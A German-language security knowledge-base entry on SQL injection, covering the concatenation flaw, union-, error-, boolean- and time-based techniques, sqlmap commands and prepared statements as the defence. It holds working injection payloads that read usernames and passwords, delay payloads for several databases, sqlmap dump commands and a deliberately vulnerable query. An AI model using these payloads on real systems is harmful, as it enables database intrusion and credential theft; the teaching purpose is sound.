

---
tags:
  - Security
  - Vulnerability
  - Web Security
  - Server-Side
  - SQLi
  - Database
  - OWASP
---

# SQL Injection (SQLi)

**SQL Injection (SQLi)** ist eine serverseitige Sicherheitslücke, bei der ein Angreifer Benutzereingaben so manipuliert, dass sie die Struktur einer Datenbankabfrage verändern. Dadurch können unbefugt Daten ausgelesen, manipuliert oder im Extremfall Befehle auf dem Datenbankserver ausgeführt werden.

---

## Ursache: String-Konkatenation statt Parametrisierung

Die Sicherheitslücke entsteht, wenn Benutzereingaben ungefiltert mit SQL-Befehlen verkettet werden:

```python
# Unsicherer Backend-Code:
user_input = request.GET.get("category")
query = f"SELECT * FROM products WHERE category = '{user_input}'"
```

Gibt der Benutzer als Eingabe `' OR 1=1 --` ein, lautet die ausgeführte Abfrage:
```sql
SELECT * FROM products WHERE category = '' OR 1=1 -- '
```
Die Bedingung `1=1` ist immer wahr, und `--` kommentiert den Rest der Zeile aus. Die Abfrage liefert **alle** Produkte zurück (einschließlich unveröffentlichter oder gesperrter Artikel).

---

## Die drei Hauptarten von SQL Injection



---

## 1. Union-Based SQL Injection

Nutzt den SQL-Befehl `UNION`, um das Ergebnis der ursprünglichen Abfrage mit den Ergebnissen einer eigenen, bösartigen Abfrage zusammenzuführen.

### Vorgehensweise:
1. **Spaltenanzahl ermitteln:**
   - Mit `ORDER BY 1`, `ORDER BY 2`, ... testen, bis die Datenbank einen Fehler wirft. Wirft `ORDER BY 4` einen Fehler, hat die Originalabfrage genau 3 Spalten.
   - Alternativ: `' UNION SELECT NULL, NULL, NULL --`
2. **Datentypen ermitteln:**
   - Testen, welche Spalte String-Daten anzeigen kann:  
     `' UNION SELECT 'a', NULL, NULL --`
3. **Daten extrahieren:**
   - Tabellennamen und Benutzertabellen auslesen:  
     `' UNION SELECT username, password, NULL FROM users --`

---

## 2. Error-Based SQL Injection

Wird verwendet, wenn die Anwendung zwar keine Daten direkt anzeigt, aber **detaillierte Datenbank-Fehlermeldungen** an den Browser zurückgibt.

Der Angreifer provoziert absichtlich einen Konvertierungs- oder Laufzeitfehler, der den gesuchten Wert im Fehlertext enthält:
```sql
-- Beispiel PostgreSQL / Microsoft SQL Server (Konvertierungsfehler):
' AND CAST((SELECT password FROM users LIMIT 1) AS INT) = 1 --
-- Fehlermeldung: "Conversion failed when converting the varchar value 'geheim123' to data type int."
```

---

## 3. Blind SQL Injection (Inferential)

Die Anwendung gibt weder Daten noch Fehlermeldungen aus. Die Seite zeigt immer dieselbe Antwort oder eine generische Meldung an.

### Boolean-Based Blind SQLi
Der Angreifer stellt Ja/Nein-Fragen an die Datenbank:
- **True-Bedingung:** `' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username='admin') = 'a' --`
  $\implies$ Seite zeigt "Willkommen zurück!"
- **False-Bedingung:** Buchstabe stimmt nicht  
  $\implies$ Seite zeigt die Begrüßung nicht an.

Durch sequenzielles oder binäres Durchsuchen aller Zeichen kann das Passwort Zeichen für Zeichen rekonstruiert werden.

### Time-Based Blind SQLi
Reagiert die Seite in beiden Fällen optisch exakt identisch, zwingt man die Datenbank zu einer künstlichen Zeitverzögerung:

```sql
-- PostgreSQL:
'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END --

-- MySQL:
' AND IF(1=1, SLEEP(5), 0) --

-- Microsoft SQL Server:
'; IF (1=1) WAITFOR DELAY '0:0:5' --
```
Dauert die HTTP-Antwort 5 Sekunden länger, war die Bedingung wahr.

---

## Automatisierung mit `sqlmap`

In der Praxis und bei Bug Bounties wird die zeitaufwendige Extraktion über das Open-Source-Tool **sqlmap** automatisiert:

```bash
# Gespeicherten Burp Suite Request gegen SQLi testen
sqlmap -r request.txt -p category --dbs

# Tabellen einer Datenbank auflisten
sqlmap -r request.txt -D app_db --tables

# Spalteninhalt dumpen
sqlmap -r request.txt -D app_db -T users --dump
```

---

## Sichere Abwehr: Prepared Statements (Parametrisierte Abfragen)

Die einzige zuverlässige Abwehrmaßnahme gegen SQL Injection ist die **vollständige Trennung von SQL-Code und Benutzerdaten** über Prepared Statements:

```python
# Sicherer Code mit parametrisierten Abfragen (z. B. sqlite3 / psycopg2):
cursor.execute(
    "SELECT * FROM products WHERE category = %s",
    (user_input,)  # Wird als reines Datum interpretiert, niemals als SQL-Code
)
```

Moderne Object-Relational Mapper (ORMs) wie SQLAlchemy, Django ORM oder Prisma nutzen intern per Default Prepared Statements.
